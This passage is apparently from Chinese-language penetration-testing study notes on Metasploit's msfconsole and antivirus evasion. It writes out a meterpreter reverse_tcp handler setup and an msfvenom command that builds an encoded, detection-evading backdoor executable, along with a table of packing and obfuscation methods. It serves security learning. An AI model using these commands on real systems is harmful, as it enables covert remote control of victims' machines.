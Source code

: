 ### msfconsole
**是什麼？**  
Metasploit 的主控制台，提供 CLI 介面來使用各種攻擊模組。

**用途：**
- 設定 **Listener**（聆聽端），等待後門回連（如上例的 reverse_tcp）
- 使用 `exploit` 模組發送攻擊
- 建立與受害主機的互動式 session（如 `meterpreter`）

**簡單使用流程：**
1. 啟動控制台：
   ```bash
   msfconsole
   ```
2. 載入 handler 模組（接收反向連線）：
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.100
   set LPORT 4444
   run
   ```
3. 等待 `backdoor.exe` 被目標執行 → 自動建立 session

### Anti-Virus Evasion（規避防毒軟體）
**目的**：讓惡意程式（如後門）**避開防毒軟體偵測**，成功在受害者系統上執行。  
現代防毒使用靜態與動態分析來識別惡意程式，因此攻擊者會針對這兩類技術進行規避。

#### 原理
##### Static Analysis（靜態分析）
**分析方式**：
- 防毒會掃描**檔案的內容**，比對是否與已知病毒碼（signature）或結構特徵相符。
- 不需執行程式，只從檔案本身判斷。

**規避手法**：

| 技術 | 說明 |
|------|------|
| Packers | 使用壓縮/加殼工具（如 UPX）將程式包裹起來，改變 payload 的 signature |
| Encoders | 編碼 payload，例如用 XOR、base64 等變形 |
| Obfuscators | 程式碼混淆，加入亂數變數名稱、無用指令或是做其他等效轉換等等 |
| Binary Padding | 人為插入 junk bytes，讓 hash 改變、外觀與特徵不同，或是靠過大的檔案突破檢測限制 |

**範例（使用 msfvenom 加 encoders）：**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > evaded.exe
```
- `-e`：指定 encoder
- `-i 5`：多次重複編碼（提高變異性）
